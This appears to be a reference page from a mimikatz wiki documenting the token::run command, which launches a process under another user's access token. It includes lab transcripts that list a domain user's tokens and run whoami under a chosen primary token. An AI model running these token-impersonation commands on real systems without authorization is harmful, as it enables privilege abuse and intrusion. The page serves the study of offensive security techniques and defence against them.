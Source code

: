 # run

`token::run` executes a process with its token.

It has the following command line argument:

![Open Windows explorer with its token](../../../.gitbook/assets/token\_run\_explorer.png)
* `/id`: Token id to use for the new process
* `/user`: Execute the process with the tokens of this user (instead of specifying the token ID)..
* `/process`: The process to run. By default, the command `whoami` is executed.

## Use Primary Token in new Process

List tokens of user to impersonate:

```
mimikatz # token::list /user:ffast
Token Id  : 0
User name : ffast
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
4432    {0;000563b2} 2 F 2839551        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
668     {0;00050574} 0 D 329079         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (12g,24p)       Impersonation (Impersonation)
668     {0;000563e4} 2 L 353269         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
800     {0;000563e4} 2 L 456098         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 380750         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 387116         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,01p)       Impersonation (Identification)
920     {0;000563e4} 2 L 436160         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
[...]
```

Run a command using a specified token by it's token ID. By default, the command `whoami` is executed:

```
mimikatz # token::run /id:457263
Token Id  : 457263
User name :
SID name  :

676     {0;000f0ac5} 3 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
winattacklab\ffast
```
